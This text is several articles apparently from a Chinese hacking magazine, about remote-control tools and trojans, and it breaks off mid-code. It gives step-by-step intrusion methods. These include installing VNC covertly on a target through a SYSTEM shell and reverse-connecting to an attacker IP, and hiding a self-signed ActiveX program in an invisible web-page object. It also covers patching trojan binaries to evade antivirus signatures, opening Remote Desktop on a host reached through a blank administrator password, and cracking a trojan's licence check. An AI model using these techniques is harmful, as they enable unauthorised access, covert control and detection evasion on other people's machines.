在 SPY++ 页面项的左下角是实时屏幕切图与选项；


图3 进程查看页面功能 I

页面的右下角则有 Select Action 选项，嘿嘿，除了模拟按键外，比如 Ctrl+Alt+Del 等，不懂得怎么用？比如说不小心碰到 F1，你一定要赶快奔回 Pview 把 Winhelp32.exe 给 Kill 掉。嘿嘿，总比在主人发现有人动了他的奶酪要好。


图4 进程查看页面功能 II

另外，它还装备了显示远程被控机中密码框中的密码功能，如图5所示。选择 Start 下拉列表框的 Password->Text 项，则此项会变为 Text->Password。此时只要你用鼠标左键点击远程桌面图像的密码输入框，则远程被控机密码框中的密码会被翻译成明文显示。如果你想取消此项功能，则点击 Text->Password 项即可，那么此项就会变为 Password->Text。不知其他软件是否也已整合了此功能呢？我倒是挺喜欢这个功能。


图5 密码显示功能

在 Option 页面项，有登录密码更改（这个我是第一时间改的，我可不想让别人占了先机）。


这儿可以改为你喜欢的端口并且让肉鸡管理员不易发现。我是这样做的，在肉鸡上运行 `netstat -an`，查一下对方的端口规律，把 Rmtsvc 的管理端口混杂在里面，最好是多于10000以上的端口，较难被发现。

### 英雄用武：凯歌中的岁月

啊哈，前面的所有配置只是为重头戏 VIDC 服务（已……）整合在 Rmtsvc 程序中！晕了，掌握它后也让人感到会有成就感，为什么程序不是我编的？

#### 什么是 VDC？它有什么用？它包括了什么？

VDC 是 yyc 编写的一个小软件。VDC 就是不直接提供空间，但你却能在上面建立自己的 Web 服务（网站）或者其他 TCP 服务。用虚拟 VDC，它允许你将局域网内的服务映射到 Internet 上，使你在任何地方都可以访问你局域网内的服务。

VDC 包括服务端和客户端两部分，即 VDCs 和 VDCc。虚拟 IDC 客户端负责将指定局域网内的服务映射到虚拟 IDC 服务器所在机器的某个端口。当有用户访问虚拟 IDC 服务所在机器的指定端口时，虚拟 IDC 服务端将请求转发至虚拟 IDC 客户端，然后虚拟 IDC 客户端连接真正被绑定的服务，同时将响应返回给用户。

讲理论是说不过去了，免得一头雾水，我还是用例子来充当说客吧（以下假设各机器均默认安装了 Rmtsvc 并能正常运行）。

- 1. 让外网机器 A 控制内网机器 B，应如何设置？

很明显，A 具有固定 IP 或动态 IP（假设为 211.23.**.153），B 具有局域网内部 IP（假设为 192.168.0.5），打开 B 的 Rmtsvc 中的 VDC，配置如图 6 所示。


图 6 表示：A 的端口 81 将被占用，当我们输入 http://211.23.**.153:81 时，实际我们打开了 http://192.168.0.5:7778 这个 TCP 服务。假如 A 是动态 IP 机器，请填写临时 IP。

- 2. 让外网机器 C 的 8200、8300、8400 端口分别为内网机器 D 服务，且分别映射到 D 的端口 80（网页）、21（FTP）、110（邮件）服务上，应如何设置？

在 A 例中，我们添加成功，使 A 控制 B 后，B 的 VDC 界面发生变化，我们可以继续添加新的服务，如图 7 所示。


这里的 SourceIP 指的是客户端的 IP，也就是内网机器的 IP；而 Mapping Port 指的是服务器上将使用的端口。这时，在外网机器中将显示如图 8 的情景。

当我们输入 http://211.23.1.1:8200 时，我们访问的是 http://192.168.0.5:80，也就是内网机器上架设的 WWW 服务，其他也是如此。


- 3. 让内网机器 E 不用免费域名，就可以被外网访问，且具有固定 IP，应如何设置？

实际上在 A 例中，假如 A 是固定 IP 或能被直接访问（不需要动态域名软件支持），那么我们将可以一直使用类似 A 例中的 http://211.23.1.1:81 对它进行控制。当然 A 如果绑定了域名 www.test.com 的话，那么也可以利用 http://www.test.com:PORT 访问内网机器的 TCP 服务。

- 4. 让内网 F 机器被另一个不同网关的内网 G 机器访问到，应如何设置？

实际上在 A 例中，已基本上解答了这一个问题。如果你想访问 F 机器的 http://f:81，就相当于访问内网 G 的机器服务 83 端口 http://g:83，那么要如何设置？其实笔者认为中间最好有一个外网固定 IP（假定为机器 H）作为中介，也就是访问 F 服务 http://f:81 --> 访问 http://h:port --> 访问 http://g:83。要实现这一条件，我们必须将 H 机作为服务端，使 G 连接上 H，同时 F 作为服务端，使 H 连接上 F（此时 F 为动态 IP，且为内网，路由器请打开 DMZ 功能，另外请架动态域名解析软件）。这时我们访问 http://f:81 也就是访问 G 机器了（注意端口都不能已被占用），不过实际上因为 F 机 IP 常变动，所以 H --> F 的连接也应是常设置的，换句话说，在一定范围内，这将显得没有意义（除非你想隐藏什么，或是有其他特殊想法）。

- 5. 通过 Rmtsvc 自带的 VDC 实现自动上线功能。

配置内机的 Rmtsvc 启动后自动连接 VDC 服务，并映射自身的 Rmtsvc 服务端口，这样你就可以通过 VDCs 看到哪些机器上线了，IP 是多少。如果内机在局域网内你可以通过映射端口访问，如果不在局域网内你直接控制访问就行了。

唉咳，实际上我是在内机、本地机器上边操作边写着的，不能说这是在写“说明书”，可是相对来讲是枯燥了一些，字里行间也注意了用词，大伙儿应该看得懂的，功力不足，惭愧呀……准备重修大学语文哟。

### 曲终夜阑：无心呢喃

朋友在介绍 rmtsvc 时和我说，这个软件的作者很热心呢——常回答相关的问题，于是我跑去它的论坛上看，果然是古道热肠，绝大多数问题都及时作出答复了。大家有问题的话均可以到 YYC 的主页 http://www.med263.com/flyfish/index.asp 查阅，当然软件也可以在上面下载。

严格上说，Rmtsvc 是远程控制软件，也具有充当后门的能力，但并不算是木马，尽管如此其强大的功能完全不亚于国内某些收费的木马软件。有必要说的是 Rmtsvc 并没有加壳，新人老手都可以很顺利地对之进行各种加壳，下面就看你的了！

**蝴蝶：** 一直想策划这样的文章……本文主要和大家讨论一下 VNC 的反向连接功能以及在使用 VNC 过程中的一些心得。


## VNC 反向连接

文/图 kaka（Kaka_at_0x557_org）

这篇文章是为渗透而写的……当目标机只开放少量端口时，安装 VNC 作为 GUI 交互控制是一个不错的选择。

```  
"Password"=hex:...  
"PollUnderCursor"=dword:00000000  
"PollForeground"=dword:00000001  
"PollFullScreen"=dword:00000000  
"OnlyPollConsole"=dword:00000001  
"OnlyPollOnEvent"=dword:00000000
```

### 准备

我们需要一个交互控制环境，最好获得对方 System 权限的 Shell，下载 VNC 3.3.7 版本并剥离远程安装所需文件。

如果你要渗透的系统是 Windows XP，那么就要在 Windows XP 上安装 VNC 并按上面的步骤剥离所需文件。

### 实践

目的是验证 VNC 远程安装与正向连接、反向连接。目标 IP 已获取 System Shell，现在在目标系统上下载安装 VNC。

```
C:\WINNT\System32>dir "C:\Program Files\RealVNC\VNC"  
...  
othread2.dll  
VNC.reg  
VNChooks.dll  
winVNC.exe
```

这里只需要 VNChooks.dll、WinVNC.exe 和 Othread2.dll 三个文件，然后从注册表中导出 VNC 设置到 VNC.reg。

```
C:\WINNT\System32>ver  
Microsoft Windows 2000 [Version 5.00.2195]  
C:\WINNT\System32>whoami  
NT AUTHORITY\SYSTEM  
...
Extracting othread2.dll OK  
Extracting VNC.reg OK  
Extracting VNChooks.dll OK  
Extracting winVNC.exe OK
```

```
REGEDIT4  
[HKEY_LOCAL_MACHINE\SOFTWARE\ORL\WinVNC3]  
"SocketConnect"=dword:00000001  
"AutoPortSelect"=dword:00000001  
"PortNumber"=dword:00000000  
"InputsEnabled"=dword:00000001  
"QuerySetting"=dword:00000002 ...
```

然后在命令行下安装 VNC：

```
C:\WINNT\System32>winVNC -install  
// 卸载：winVNC -remove  
C:\WINNT\System32\regedit /s VNC.reg
```

```bat
// 把 VNC 注册表内容导入，和配置、密码等。
c:\winnt\regedit /s VNC.reg
C:\WINNT\System32>net start winVNC
// 启动 VNC 服务。
net start winVNC
...
C:\WINNT\System32>netstat -an | find ":5800"
TCP    0.0.0.0:5800    0.0.0.0:0    LISTENING
```

安装成功后，我们直接测试 VNC 的正向连接功能，连上去，如图 1 所示。


请注意看图片的右下角，并没有 VNC 的图标出现。似乎很顺利，接下来应该测试 VNC 的反向连接。

- 开 VNCviewer.exe 的监听模式（默认监听本机 5500 端口）
- `WinVNC -connect VNCviewer监听的IP`

问题在这里出现了，花费了几个小时分析反向连接失败原因。下边是分析思路：运行中的 WinVNC 也就是安装好 VNC 后系统启动的 VNC 程序。

```bat
C:\WINNT\System32>pulist | find "winVNC.exe"
Process      PID   User
winVNC.exe   3104  NT AUTHORITY\SYSTEM
```

我在 SYSTEM 的 Shell 环境下输入：

```bat
WinVNC -connect myip
```

以为会在已开启 VNCviewer 监听的机器上出现 VNC 反连 GUI 界面，结果失败。查看远程机器的 VNC 进程如下：

```bat
C:\WINNT\System32>winVNC -connect 222.65.110.236
...
C:\WINNT\System32>pulist | find "winVNC.exe"
```

```bat
pulist | find "winVNC.exe"
winVNC.exe   3104  NT AUTHORITY\SYSTEM
WinVNC.exe   2392  NT AUTHORITY\SYSTEM
```

不能反向连接，这不是我想要的。继续看资料并在本机实验，怀疑与 System 权限下 Shell 有关，尝试使用 Runas 以其他用户权限运行工具。

```bat
C:\WINNT\System32>runas /profile /env /user:FILE-PRINT\edu "winVNC -connect 222.65.110.236"
...
C:\WINNT\System32>pulist | find "winVNC.exe"
winVNC.exe   3104  NT AUTHORITY\SYSTEM
```

利用 Runas 以用户身份执行 VNC 反向连接失败，提示信息杂乱。随后改用另一个工具 Runasex.exe。

```bat
C:\WINNT\System32>runasex edu edu "winVNC -connect 222.65.110.*"
winVNC Execute Successfully.
C:\WINNT\System32>netstat -an | find ":5500"
TCP ... ESTABLISHED
TCP 0.0.0.0:5500 ... LISTENING
```

在我本机出现了期待已久的 VNC 远程连接界面，成功！最后结论：WinVNC 反连接需要先有本地 VNC 运行进程，并且应以普通用户身份触发，System 权限不适合直接启动反连。

## “数字签名”自己做

## ——打造属于自己的在线工具及控件木马

文/图 icyfoxlovelace/冰狐浪子

现在网络上出现了很多在线工具，特别是一些所谓的“黑客”站点提供大量在线破解工具，用来突破网吧限制，为网友提供方便的同时大大提高了自己的访问量。我查看了一下这些在线工具网页，发现它们多是利用“iegoweb”这个让 EXE 在网页中运行的工具制作出来的，而这个工具是共享软件，有时间限制；还有一些是利用几个大点的安全站点或黑客站点提供的控件制作的，看着提示中显示别人的“数字签名”，你是不是觉得有点别扭？自己特想改改？如果你和我一样是个追求完美的人，请随我一起来做个自己的“数字签名”控件，让你的程序在网页中“飞”起来！当然，如果你有很多 Money 的话，花钱去证书颁发机构申请也未尝不可，但我很穷，而且我专做“好事”，只好自己做啦！

```
makecert -sv icyfox.pvk -n "CN=冰狐浪子" -ss My -r -b 01/01/1900 -e 01/01/9999
```

其中“-sv icyfox.pvk”意思是生成一个私钥文件 icyfox.pvk；“-n "CN=冰狐浪子"”中的“冰狐浪子”就是签名中显示的证书所有人的名字，记住要改为你自己的或你想要的名字；“-ss My”指定生成后的证书保存在个人证书中；“-r”意思是说证书是自己颁发给自己的；“-b 01/01/1900”指定证书的有效期起始日期，格式为“月/日/年”，最低为 1900 年；“-e 01/01/9999”指定证书的有效期终止日期，格式同上，至于其他命令暂时用不到，我也不多做介绍了。

### ◎ 工具先行 ◎

#### 1. “数字证书”制作软件 MakeCert

Makecert 是微软出品的一个用来制作“数字签名”的软件，命令行界面，利用它可以轻松做出属于自己的个人“数字签名”，做出来的这个数字签名是不属于受信任证书的，但这并不影响使用。

#### 2. CAB 压缩软件包制作工具 IEXPRESS

IEXPRESS 是 MAKECAB.EXE 的 GUI 界面程序，用来把程序所需文件压缩打包为 CAB 格式，便于传输。当然，如果你的程序是一个独立的 EXE 文件，可以不需要用这个工具打包，但考虑到现在多数免费空间不支持 EXE 格式文件上传，建议打包，类似的工具还有命令行界面的 Cabarc.exe。

#### 3. 数字签名软件 Signcode

我们可以使用 Signcode 和自己的“数字证书”签署自己的软件，给软件加上数字签名，使其可以在网页中运行。准备好了吗？下面就和我一起来打造属于自己的数字签名控件吧！

### ◎ 数字签名我来做 ◎

#### 1. 制作“数字证书”

Makecert 命令如下：

在控制台命令提示状态输入上面的命令，出现如图 1 所示的界面。


不需要填私钥密码吧？直接点“无”按钮就可以了，如果你喜欢麻烦就输入密码，并记住它。好，现在已经在目录下生成了你的私钥文件“icyfox.pvk”，但证书在哪里？别急，打开 IE 的“Internet 选项”，切换到“内容”标签，看到“证书”按钮没？点击它，出现如图 2 所示的界面：看见没？图 2 中那个截止日期为 9999-1-1 的“冰狐浪子”就是刚才自己生成的证书，把它“导出”为 icyfox.cer，好啦，最重要的第一步已经完成。


图 2

#### 2. 打包程序文件

首先建立 Runexe.inf 文件，内容如下：

```ini
[Version]
Signature=$CHICAGO$

[icyfox]
run=%EXTRACT_DIR%\icyfox.exe

[Setup Hooks]
icyfox=icyfox
```

记得要把上面的“icyfox.exe”改为你的程序名，然后运行 IEXPRESS.EXE，选择“创建新的自解压缩指令文件”，进入下一步，选择“只创建压缩文件（ActiveX 安装）”，把用到的程序及 DLL 添加进列表，同时把“runexe.inf”也添加进来，出现如图 3 所示界面。


图 3

按照图 3 配置选项后，连续点击“下一步”，即可生成 icyfox.CAB。注：如果你的程序是单独的一个 EXE 文件，也可以省去本步骤。

#### 3. 为 icyfox.CAB 签署数字签名

运行 Signcode，选择 Icyfox.cab，在“签名选项”的“签名类型”中选“自定义”，从文件中选择上面第一步导出的证书文件 Icyfox.cer，再选择私钥文件 Icyfox.pvk，然后进入描述，如图 4 所示。

> 图 4 中“描述（可选）”下的输入框中输入的文字，在把程序嵌入网页时会出现，可根据个人爱好填写相应描述语句。


图 4

#### 4. 将程序嵌入网页

加入到网页中的代码如下（CS.HTM）：

```html
<HTML><head>
<title>“数字签名”自己做之控件测试</title></head>
<BODY>
<OBJECT width=0 height=0 style="display:none"
TYPE="application/x-oleobject" CODEBASE="icyfox.CAB">
</OBJECT>
</BODY>
</HTML>
```

访问 CS.HTM，就会出现如图 5 所示界面。


图 5

当访问者点击“是”按钮后，程序就会运行。这样的界面既可方便网友使用，也可展示个性。

| 项目 | 内容 |
|---|---|
| 适合读者 | 黑客工具爱好者、逆向爱好者 |
| 前置知识 | 汇编、脱壳 |
| 难度等级 | 高 |

文/图 icyfoxlovelace/冰狐浪子

## 杀毒软件能奈我何——网络神偷简转征码之终极实践


网络神偷不愧是一个专业级的远程文件访问工具，其操作简单、功能专而精，但目前很多杀毒软件都对网络神偷进行追杀，被冠以病毒之名。作者因此尝试自己动手处理出可用版本，并记录过程。

从作者主页下载“网络神偷 5.8”版，查看服务端文件 Server.bud，发现修改日期较早，说明服务端长期未更新。

### 脱 UPX 壳

用 WinHex 打开 Server.bud，发现特征字符串“1.08 UPX!”，并定位到相关偏移。恢复节名后使用 `UPX -d Server.bud` 脱壳，脱壳后文件大小约 56KB。

### 无终验证

运行客户端并生成服务端后进行测试，程序无明显报错但未产生预期进程与文件。作者在文件尾部发现新增的 16 字节疑似校验值（类似 MD5），推测服务端加入了校验代码，随后使用 Ollydbg 跟踪分析并定位到关键代码位置。

```
00407828  B9 10000000      MOV ECX,10
0040782D  8D7424 58        LEA ESI,[ESP+58]
00407831  8D7D 38          LEA EDI,[EBP+38]
00407834  33C0             XOR EAX,EAX
00407836  F3:A6            REPE CMPS BYTE PTR ES:[EDI],BYTE PTR DS:[ESI]
00407838  74 05            JE SHORT ...
0040783A  1BC0             SBB EAX,EAX
0040783C  83D8 FF          SBB EAX,-1
0040783F  85C0             TEST EAX,EAX
00407841  0F85 EA060000    JNZ ...
...
00407ECD  6A 00            PUSH 0
00407ECF  50               PUSH EAX
00407ED0  51               PUSH ECX
00407ED1  FF15 74A04000    CALL DWORD PTR DS:[<&KERNEL32.CopyFileA>]
...
```

从上面代码可以看到，如果在 `00407841h` 处跳转的话，就会跳过 `CopyFileA`（文件拷贝）和 `ShellExecuteA`（远程运行）的 API 调用，从而导致服务端不复制自身到系统目录并运行。我把文件偏移 `7841h` 处的代码 NOP 掉，即把 `0F 85 E4 06 00 00` 改为 `90 90 90 90 90 90`，保存后运行测试成功。

后来我仔细分析了反汇编后的代码，发现服务端文件最后的那 16 个字节是文件的 MD5 值。它是用简单变换加密后的值，可以利用服务端反向得到正确值，不用爆破也可以。

首先用 MD5 软件得到删除最后多余 16 个字节后的 `Server.bud` 的 MD5 值，然后把得到的 MD5 值重新追加到 `Server.bud` 结尾后生成服务端，再用 OllyDbg 调试服务端。下断点后在内存偏移处可得到加密后的 MD5 值，用这个 16 位值替换 `Server.bud` 末尾 16 字节即可生成能正常运行的服务端。

### 获取特征码

到现在总算完整把服务端的壳脱掉了。即把服务端 `Server.bud` 脱壳后，用 WinHex 把 `Server.bud` 文件偏移 `7841h` 处的 `0F 85 E4 06 00 00` 改为 `90 90 90 90 90 90`，得到爆破后的可任意修改的 `Server.bud` 文件备份。接下来的特征码修改就是基于这个文件。

下面开始进入正题，获取网络神偷服务端的特征码。先把各种杀毒软件准备好（文中提到瑞星、金山、江民、Symantec 等），全部安装后关闭实时防护并设置为发现病毒直接删除，为后续特征码提取做准备。

> 在测试后门或木马是否会被查杀时，使用多种杀毒软件轮流检测是最常见也最有效的方法。针对国内目标建议优先使用国内常见杀软/工具；针对国外机器则应根据对方使用习惯替换特征码，避免无效修改。

因为杀毒软件为了保护自身利益并防止特征码被误报，往往会对特征码进行加密保护，直接获取特征码库较困难。这里介绍一种较低级但有效的方法——“逐字节替换法”搜索特征码。

方法是把木马服务端或病毒程序从头到尾逐字节改成 `00h` 或 `FFh`（其他值也可），每替换一个字节保存一个文件，下一字节替换前恢复上一字节原值。然后用杀软逐个查杀，未被删除的即与特征码相关，再汇总得到该样本的特征码。

获取特征码的原理并不复杂，实际操作中需要注意：

- 第一，替换应从代码段开始，不建议从文件头开始，因为特征码一般不在文件头；代码段起始偏移可从 PE 结构中 `3Ch-3Fh` 的值反推得到。  
- 第二，逐字节替换会生成大量文件、占用大量空间。可采用分段法逐步缩小范围：先按较大块（如 `1000h`）替换定位，再按更小粒度（如 `50h`）细化定位，以降低文件数量和测试成本。范围（4K 大小）进行替换并查杀，最后对 `50h` 范围再使用逐字节替换找到准确的特征码，这样每次仅需要几 MB 空间就足够，且速度很快。  
- 第三，特征码通常会位于程序入口点（Program Entry Point）下面的一段代码内。  
- 第四，手工进行替换会累死你，写个软件吧。

把修改后的服务端 `Server.bud` 使用上面所讲的方法进行分解，最后得到的各杀毒软件对于网络神偷的特征码定义如下：

#### 1. 瑞星杀毒软件 2004 版

这个软件我还真没找到它对网络神偷定义的特征码……大概因为网络神偷服务端不算太隐蔽……

#### 2. 金山毒霸 6

特征码为：

- （1）文件偏移 `8A12h` 至 `8A22h` 的 `400068968B400064A100000000050648925`
- （2）文件偏移 `C1A0h` 至 `C1C2h` 的 `20474F544F204552524F52...`（即 `GOTO ERROR del Nethief_Server.bat`）

第 2 段特征码好像不是必须……

#### 3. 江民 KV2004

江民 KV2004 的特征码分段最多也最大……特征码范围如下：文件偏移 `1A33h` 至 `1A78h`、`8A0Ah` 至 `8A31h`、`8B32h` 至 `8B33h`、`8B38h` 至 `8B3Fh`、`8B41h` 至 `8B43h`、`8BA2h` 至 `8BB2h` 及 `8BB7h`。

#### 4. Symantec 诺顿 8.1 企业版

文件偏移 `C20Ch` 至 `C228h` 处的 `4B45524E454C3332...`（即 “KERNEL32 ...”）为特征码，唯一的一个特征码不在代码段……并且经常是字母！

> 蝴蝶：其实国内杀毒软件厂家都有自己的特征码提取技术……手工提取和自动提取各有特点……

> 总结来说是有规律的。大家可以针对某种病毒做详细特征码分析，相信会有不小的收获。

### 修改特征码

上面忙活了半天，就为“修改特征码躲避杀毒软件”服务……把文件偏移 `C20Ch` 至 `C211h` 的 `4B45524E454C` 改为 `6B65726E656C` 后运行正常，并成功躲过诺顿……

```asm
Program Entry Point
00408A0A 55              push ebp
00408A0B 8BEC            mov ebp,esp
00408A14 68968B4000      push 00408B96
00408A19 64A100000000    mov eax,dword ptr fs:[00000000]
...
```

分析上面的代码，可以发现修改：

```asm
00408A14 68968B4000   push 00408B96
00408A19 64A100000000 mov eax,dword ptr fs:[00000000]
```

这两句代码的先后顺序并不会影响堆栈内容的读取，同时也改变了特征码，即改为：

```asm
00408A14 64A100000000 mov eax,dword ptr fs:[00000000]
00408A1A 68968B4000   push 00408B96
```

用 WinHex 打开 `Server.bud`，把文件偏移 `8A14h` 至 `8A1Eh` 处的字节序列改写后保存……测试运行正常，4 种杀毒软件都没有真正报毒，网络神偷特征码修改实战顺利完成！最后建议可采用 ASPACK 加壳……

| 适合读者 | 入侵爱好者 |
|---|---|
| 前置知识 | 无 |
| 难度等级 | 低 |

**蝴蝶：** 在《黑客防线》论坛上有专题策划板块，围绕“Windows 2000 专业版开 3389 终端服务”读者提问展开，编辑部据此组织本文。

## Windows 2000 Professional 也开 3389

大家都知道 Windows 2000 Professional 默认不支持 3389 终端服务，通常需 Server 版。本文介绍通过修改版本标识与工具实现 Professional 安装终端服务的方法。

右栏说明：可用 **NTSwitch** 将专业版切换为服务版，再安装终端服务，操作界面简单，按图示执行即可。

### 将 Professional 变为 Server

介绍 3am Laboratories 的 NTSwitch 工具及下载地址，并解释 Windows 2000 各版本核心程序相近，主要差异在注册表项，因此可通过修改相关键值实现功能切换。

> 其实 Windows 2000 的各个版本都使用了同样的程序、动态链接库，它们之间最大的差别是在注册表中……只要将 Professional 版相关项目改为 Server 及以上版本，就可以安装终端服务。

点击“Go Server”后重启，再通过 Telnet 查看 `boot.ini`，系统标识已变更（见图 2）。

下文给出实战流程：先用弱口令扫描工具定位目标主机，再通过 IPC$ 与管理员账户连接，复制并启动远程程序，随后在 Telnet 中查看并修改配置。

```bash
net use \\218.199.16.168\ipc$ "" /user:"administrator"
```

```ini
timeout=30
default=multi(0)disk(0)rdisk(0)partition(1)\WINNT
[operating systems]
multi(0)disk(0)rdisk(0)partition(1)\WINNT="Microsoft Windows 2000 Professional" /fastdetect
```

变成 Server 后，文中建议将注册表键值导入目标机器以继续完成终端服务开启。

```reg
Windows Registry Editor Version 5.00

[HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\netcache]
"Enabled"="0"
```

```reg
[HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon]
"ShutdownWithoutLogon"="0"

[HKEY_LOCAL_MACHINE\SOFTWARE\Policies\Microsoft\Windows\Installer]
"EnableAdminTSRemote"=dword:00000001

[HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server]
"TSEnabled"=dword:00000001

[HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\TermDD]
"Start"=dword:00000002

[HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\TermService]
"Start"=dword:00000002

[HKEY_USERS\.DEFAULT\Keyboard Layout\Toggle]
"Hotkey"="1"
```

然后再重启肉鸡，拿出 3389 桌面连接器，HOHO，登上了。如图 3 所示。

其实用 `rots.vbs` 脚本文件也可以，方法如下：

`cscript ROTS.vbs <目标IP> <用户名> <密码> [服务端口] [自动重启选项]`

在 Windows 2000 专业版下开放 3389，主要问题就是改变 Windows 2000 专业版的版本，将它变成 Server 版就可以了。也许很多朋友就是知道 NTSwitch，也不一定有时间去测试，本文就算是为大家实验一下吧。

| 适合读者 | 黑客工具爱好者 |
|---|---|
| 前置知识 | 无 |
| 难度等级 | 中 |

## 轻松绕过黑洞 2004 用户验证

文／图：cyfoxlovelace／冰狐浪子

黑洞是一款较早的国产木马，现在作者陈经据已经把其定位为远程控制功能的共享软件了……由于在家就无法生成服务端，给修改带来极大的不方便，恼之，决定上网吧里去先搞定它的用户验证再说！

在作者的主页 `http://www.138soft.org` 里进行，因此我首先修改 `hosts` 这个本地 DNS 解析文件……在 Hosts 文件最后另起一行加入 `127.0.0.1 www.138soft.org` 并保存，这样程序访问 `www.138soft.org` 这个网址时就会被解析为 `127.0.0.1` 这个本地 IP 地址了！

> “DLL 插入型服务端”实际上就是利用 DLL 进程插入的方式种植后门，是目前国内比较流行的后门技术，编程技术要求也不低。

> 很多 C/S 验证方式的程序都是使用网页验证的方法，不过可能受网络障碍影响。使用本文所讲的方法完全可以免除掉大多数使用此类验证的程序，有兴趣的朋友可以自己尝试应用。

### 分析用户验证过程

我大致分析了一下，猜想它的用户验证多半应该是……

运行“图形界面的 NC——VNC”，侦听本地 80 端口，然后运行“黑洞 2004.Build20040405”客户端程序 `Client.exe`，在“功能[C]”菜单中选择“生成服务端[S]”，进行简单的服务端配置后，点击“生成 DLL 插入型服务端”，进入“用户验证”，点击“开始”。果然不出所料……

“VNC”马上提示有人连接，并接收到如下信息（不好意思，这里显示的用户名和密码是错误的，呵呵），如图 1 所示。

```http
GET /Singularity/ValiDate.Asp?UserName=冰狐浪子&UserPsw=12345678 HTTP/1.1
Host: www.138soft.org
Accept: text/html, */*
User-Agent: Mozilla/3.0 (compatible; Indy Library)
Cookie: ASPSESSIONID=...
```

从接收到的信息中我们很容易知道，“黑洞 2004.Build20040405”的用户验证是通过 `http://www.138soft.org/Singularity/ValiDate.Asp?UserName=????&UserPsw=****` 这个 ASP 页面进行的。还原 `hosts` 文件后，用 IE 访问它的用户验证页面，发现当用户名和密码错误时显示 `PswError`；当输入正确的用户名和密码访问时显示 `http://www.138soft.org/Singularity/DllServer.bin@168`。

想到什么了？对，我们去看看这个地址究竟有什么东西。马上在 IE 地址栏中输入 `http://www.138soft.org/Singularity/DllServer.bin@168`，显示“无法找到网页”。看看地址后面的 `@168` 觉得怪怪的，后来经过验证发现原来 `@` 后的 `168` 是服务端文件的解密密码：解密时把 `DllServer.bin` 每取 `1000h` 字节小反序后，每个字节减去 168，就可以还原服务端。去掉它，用 `http://www.138soft.org/Singularity/DllServer.bin` 来访问，哈哈，IE 提示下载保存，赶紧找个地方把 `DllServer.bin` 保存下来！

整理一下上面的测试，“黑洞”生成“DLL 插入型服务端”的过程应该大致如下：程序首先访问 `http://www.138soft.org/Singularity/ValiDate.Asp`，如果用户名和密码通过验证，则 `ValiDate.Asp` 页面会返回加密后的“DLL 插入型服务端”文件下载地址和解密密码，程序下载服务端文件到内存后对其进行解密，然后根据你的配置生成相应服务端。所以只要我们得到 `DllServer.bin` 后自己建立一个 HTTP 服务器，应该就可以用任意的用户名和密码生成“DLL 插入型服务端”了。

### 绕过“用户验证”

照顾下和我一样在 Windows 98 或在网吧苦苦挣扎的各位菜鸟网友，就不用 IIS 了，拿出自己珍藏的最小 HTTP 服务器 Minihttp，大小才 6K 哦！Minihttp 使用方便，无需安装，直接运行即可，操作界面简单，如图 2 所示。

在 Server IP 里填入服务器的 IP 地址（默认端口为 80）；再在设置栏 Server root 里填入要发布网页的目录，填入发布网页的首页文件名（默认首页文件名为 `index.htm`）就可以了。

首先把 `hosts` 文件重新加入 `127.0.0.1 www.138soft.org` 并保存，把 `Minihttp.exe` 放到文件夹“破解黑洞”下，并在“破解黑洞”目录下建立新文件夹“Singularity”，新建文件 `ValiDate.Asp`，内容如下（只一行而已）：

```text
http://www.138soft.org/Singularity/DllServer.bin@168
```

然后把 `ValiDate.Asp` 以及上面下载到的 `DllServer.bin` 这 2 个文件放入 `Singularity` 目录下，双击 `Minihttp.exe` 运行 HTTP 服务器，显示一个 DOS 控制台窗口，不要关闭它；运行“黑洞 2004.Build20040405”的客户端程序 `Client.exe`，随便填写用户名和密码后，生成“DLL 插入型服务端”。呵呵，“DLL 插入型服务端”顺利生成，如图 3 所示。

最后验证一下，在自己的机器上运行生成后的服务端（多伟大的牺牲精神啊），客户端马上显示有主机上线，测试其各种功能均正常，至此已成功绕过黑洞 2004 用户验证！

## 黑白对抗中的磁盘模拟技术渗入探析

icefire：无论是在病毒还是在反病毒技术中，对磁盘的操纵都是一个永恒的话题。这其中包括获取磁盘空间数据、磁盘遍历、文件搜索、文件目录删除等。很多朋友觉得很神秘，一直有这方面的疑问，所以下面我们就和大家一起讨论这方面的编程技术，希望能够起到抛砖引玉的作用。

- 难度等级：中
- 前置知识：磁盘、API、VC++ 相关知识

为“获取磁盘空间数据”用 VC++6.0 编写。

### 获取磁盘空间的数据

如果是病毒，它是如何来获取磁盘空间的数据信息的？而且还能得到当前计算机有哪些逻辑驱动器？下面我们就一个一个来介绍。

首先来看一下在已经知道逻辑驱动器名称时，如何得到磁盘空间信息。这里有一个 API 函数，其原型如下：

```cpp
BOOL GetDiskFreeSpaceEx(
  LPCTSTR lpDirectoryName,
  PULARGE_INTEGER lpFreeBytesAvailableToCaller,
  PULARGE_INTEGER lpTotalNumberOfBytes,
  PULARGE_INTEGER lpTotalNumberOfFreeBytes
);
```

关于这个函数参数的几点说明：

- （1）第一个参数如果为空，则返回程序所在当前目录的空间数据。如果使用的是 UNC 路径，则要在最后加一个反斜线，例如指定路径为 `\\MyServer\\MyShare`，则要写成 `\\MyServer\\MyShare\\`。
- （2）对于后面第二和第三个参数，如果系统在磁盘上作了每用户的磁盘配额，则得到的数据可能会比实际数据要小。

> 注：关于磁盘配额的知识，读者可以参考笔者在《黑客防线》2003 年第 10 期上发表的《NTFS 全面解决 Windows2000 的安全方案》一文。

对于获取所有驱动器的 API 函数原型如下：

```cpp
DWORD GetLogicalDriveStrings(
  DWORD nBufferLength,
  LPTSTR lpBuffer
);
```

这个程序的源代码读者可以在附书光盘中找到。

```cpp
void CDrvSpaceDlg::OnGetDrvSpaceInfo()
{
    UpdateData(TRUE);
    CString Driver;
    CComboBox* pDriver = (CComboBox*)GetDlgItem(IDC_DRIVER);
    pDriver->GetWindowText(Driver);

    ULARGE_INTEGER FreeAV, TotalBytes, FreeBytes;
    if(GetDiskFreeSpaceEx(Driver, &FreeAV, &TotalBytes, &FreeBytes))
    {
        CString strTotalBytes, strFreeBytes;
        strTotalBytes.Format("%u字节", TotalBytes.QuadPart);
        strFreeBytes.Format("%u字节", FreeBytes.QuadPart);
        CStatic* pTotalStatic = (CStatic*)GetDlgItem(IDC_TOTAL);
        CStatic* pFreeStatic = (CStatic*)GetDlgItem(IDC_FREE);
        pTotalStatic->SetWindowText(strTotalBytes);
        pFreeStatic->SetWindowText(strFreeBytes);
    }
}
```

下面的函数可用来取得磁盘的逻辑驱动器。

```cpp
